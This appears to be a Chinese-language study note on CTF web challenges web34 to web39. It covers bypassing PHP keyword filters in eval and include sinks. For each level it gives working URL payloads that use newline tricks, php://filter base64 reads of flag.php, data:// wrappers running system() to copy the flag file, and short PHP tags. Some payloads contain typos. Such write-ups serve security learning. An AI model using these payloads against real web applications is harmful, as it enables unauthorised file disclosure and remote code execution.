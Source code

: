 # web34:过滤  flag | system | php | cat | sort | shell | . |   | \`| echo | ; | " | ( | : |
```
前面的嵌套执行均可使用
不需要使用括号的语言结构：echo print isset unset include require

?c=print%0a$_GET[1]?>&1=phpinfo();   //无法执行，因为print只是打印输出一行字符串

?c=include%0a$_GET[1]?>1=php://filter/convert.base64-encode/resource=flag.php    
```
[[php语言结构]]

# web35:过滤  flag | system | php | cat | sort | shell | . |   | \` | echo | ; | " | ( | : | < | =|
多过滤了左括号和等号
```
?c=include%0a$_GET[1]?>1=php://filter/convert.base64-encode/resource=flag.php    
```
为什么只能使用这种方法呢？语言分为数据域和代码域，因为我们执行代码的函数需要用括号来表示为代码域，需要执行，但是现在括号被ban了，我们只能使用不用括号，但仍能执行代码的函数

# web36:过滤  flag | system | php | cat | sort | shell | . |   | \` | echo | ; | " | ( | : | < | =| 【0-9】|

这里多过滤了数字
```
?c=include%0a$_GET[a]?>a=php://filter/convert.base64-encode/resource=flag.php  
```

# web37:原来是eval($c)，现在是include(￥c)

区别是什么？eval是代码域，而include是数据域，这就表示我们输入的代码不能被直接执行了
考点是伪协议
```
?c=data://tetx/plain<?php phpinfo();?>     //可以成功
data://协议的特点就是将后面的字符串作为代码进行执行

?c=data://tetx/plain,<?php system("mv fla?.php 1.txt");?>   //之后访问1.txt即可
```
[[伪协议]]
# web38:include——过滤 flag| php | file 
```
?c=data://tetx/plain<?php system("mv fla?.php 1.txt");?>    //由于Php被ban导致我们这串Payload不能使用

?c=data://tetx/plain,<?=system("cp fl*.* 1.txt);?>
```
[[短标签]]

# web39:无回显，强制后缀名 include——过滤 flag| php | file 
![[Pasted image 20250316181615.png]]
```
?c=data://tetx/plain,<?=system("cp fl*.* 1.txt);?>
同样可行
```
